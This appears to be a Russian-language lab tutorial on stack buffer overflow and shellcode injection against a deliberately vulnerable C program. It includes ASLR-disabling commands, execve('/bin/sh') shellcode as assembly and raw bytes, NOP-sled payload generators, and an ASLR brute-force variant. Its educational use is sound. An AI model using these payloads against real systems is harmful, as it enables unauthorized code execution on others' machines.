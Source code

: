 ifdef::env-github[]
:tip-caption: :bulb:
:note-caption: :memo:
:important-caption: :heavy_exclamation_mark:
:caution-caption: :fire:
:warning-caption: :warning:
endif::[]

= Shellcode injection
:source-highlighter: rouge
:rouge-style: github
:icons: font
:sectnums:

== Рассмотрим `vuln.c`

[source, c]
----
#include <stdio.h>
#include <string.h>

void func(char *name) {
        char buf[100];
        strcpy(buf, name);
        printf("Welcome %s\n", buf);
}

int main(int argc, char **argv) {
        func(argv[1]);
        return 0;
}
----

В этом коде есть уязвимость: функция `strcpy` не указывает максимальную длину при копировании.
Это может привести к записи данных за пределы `buf`, причём может быть перезаписан адрес возврата.

== Скомпилируем код

[source, shell]
----
gcc vuln.c -o vuln -fno-stack-protector -m32 -z execstack
----

Флаги:
- `-fno-stack-protector` -- отключить проверки переполнений буфера на стеке (скорее всего по умолчанию компилятор проверок не вставляет, но может быть нужным для нестандартно-собранного компилятора);
- `-m32` -- собрать 32-х битного окружения (делается для удобства, но может потребовать установки дополнительных пакетов, в целом можно обойтись без него, но получим длинные адреса);
- `-z execstack` -- просим ринкер собрать исполняемый файл требующий исполняемый стек.

== Отключаем https://en.wikipedia.org/wiki/Address_space_layout_randomization[ASLR]

[source,shell]
----
echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space
----

== Посмотрим на ассемблерный код vuln

[source, shell]
----
objdump -d -M intel vuln
----

Нас интересует строка `11b5:	8d 45 94	lea eax,[ebp-0x6c]`.
`0x6c` это `108`, т.е `buf` начинается за `108` байтов от `ebp`.
Ещё `4` байта отводится под хранение регистра `ebx` (строка `11a0:	53	push ebx`).
Ещё `4` байта отводится под хранение регистра `ebp` -- указатель предыдущего кадра стека (строка `119d:	55	push ebp`).
Следующие `4` байта хранят адрес возврата.

== Рассмотрим `shellcode.nasm`

[source, nasm]
----
xor     eax, eax    ;Clearing eax register
push    eax         ;Pushing NULL bytes
push    0x68732f2f  ;Pushing //sh
push    0x6e69622f  ;Pushing /bin
mov     ebx, esp    ;ebx now has address of /bin//sh
push    eax         ;Pushing NULL byte
mov     edx, esp    ;edx now has address of NULL byte
push    ebx         ;Pushing address of /bin//sh
mov     ecx, esp    ;ecx now has address of address
                    ;of /bin//sh byte
mov     al, 11      ;syscall number of execve is 11
int     0x80        ;Make the system call
----

Данный ассемблерный код совершает системный вызов `execve`, запуская `/bin/sh`.

== Скомпилируем код инъекции

[source, shell]
----
nasm -f elf shellcode.asm
----

== Посмотрим на байты инъекции

[source, shell]
----
objdump -d -M intel shellcode.o
----

Отсюда получаем последовательность байтов, содержащую инъекцию:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`.

== Куда делать инъекцию?

Хотим сделать инъекцию через переполнение `buf`.
Для этого будем передавать длинную строку  в первый аргумент `vuln`.
Воспользуемся отладчиком `gdb`, чтобы определить, по какому адресу будет лежать `buf`.
Т.к ASLR выключен, то адрес не будет меняться от запуска к запуску.

== Запустим программу в отладчике

[source]
----
gdb -q vuln
(gdb) b func
(gdb) r $(python -c 'print("A"*116)')
(gdb) p $ebp - 0x6c
----

[IMPORTANT]
====
В отладчике мы запускали программу, передав ей один аргумент длины 116 байтов.
Так как аргументы программы попадают в конец адрессного пространства, то для получения корректного адреса нужно,
чтобы аргументы занимали столько же места, сколько займёт код инъекции.

Попробуйте запустить программу с другим по длине аргументом и получите другой адрес.

[source]
----
(gdb) r A
(gdb) p $ebp - 0x6c
----
====

В моём случае адрес возврата получился `0xffffce4c`.

[NOTE]
====
В вашем случае адрес возврата может отличаться, поэтому в дальнейших шагах используйте его.
====

== Сформируем аргумент для `vuln`, который позволит запустить `sh`

Сначала будут лежать байты кода, на который хотим выполнить возврат из функции `func`, а в конце -- адрес этого кода.
Аргумент составим следующим образом: сначала идут 87 байтов  -- инструкция `NOP`,
далее `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80` -- сама наша программа,
далее `\x4c\xce\xff\xff` -- адрес возврата.

Напишем и скомпилируем программу `injection_input.c`, которая будет печатать эти байты.

[source, c]
----
#include <stdio.h>

int main() {
        for (int i = 0; i < 87; ++i) {
                printf("\x90");
        }
        printf("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80");
        printf("\x4c\xce\xff\xff");
        return 0;
}
----

Скомпилируем её.

[source, shell]
----
gcc injection_input.c
----

== Запустим `vuln` передав ей сформированный вход

[source, shell]
----
./vuln $(./a.out)
----

сИ видим, что запустился `sh`.

[source]
----
Welcome 1Ph//shh/binPS
                      L
sh-5.1$
----

== Включим ASLR обратно

[source,shell]
----
echo "2" | sudo dd of=/proc/sys/kernel/randomize_va_space
----

== Теперь попробуем произвести инъекцию с включённым ASLR

Напишем и скомпилируем  программу `injection_code_aslr.c`, формирующую инъекцию.

[source, c]
----
#include <stdio.h>

int main() {
        for (int i = 0; i < 100000; ++i) {
                printf("\x90");
        }
        printf("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80");
        return 0;
}
----

[NOTE]
====
Заметим, что теперь инструкций `NOP` не `87`, а `100000`.
====

[source, c]
----
gcc injection_code_aslr.c
----

Запишем код нашей программы в переменную окружения `SHELLCODE`.

[source, shell]
----
export SHELLCODE=$(./a.out)
----

Напишем и скомпилируем программу `injection_input_aslr.c` формирующую вход для `vuln`.

[source, c]
----
#include <stdio.h>

int main() {
        for (int i = 0; i < 112; ++i) {
                printf("A");
        }
        printf("\x11\x11\xff\xff");
        return 0;
}
----

[source, c]
----
gcc injection_input_aslr.c
----

== Запустим `vuln` передав ей сформированный вход

[source, shell]
----
./vuln $(./a.out)
----

Повторяйте, пока не запустится `sh`.

== Ссылки для самостоятельного изучения

* https://dhavalkapil.com/blogs/Shellcode-Injection/[Оригинальная статья], по которой подготавливалось занятие.
* https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/[Статья про атаку буфера]. Она попроще, но там разбираются многиеш вещи, которые разбирали на занятии.
* https://habr.com/ru/companies/pt/articles/349544/[Классная статья про обход ASLR].
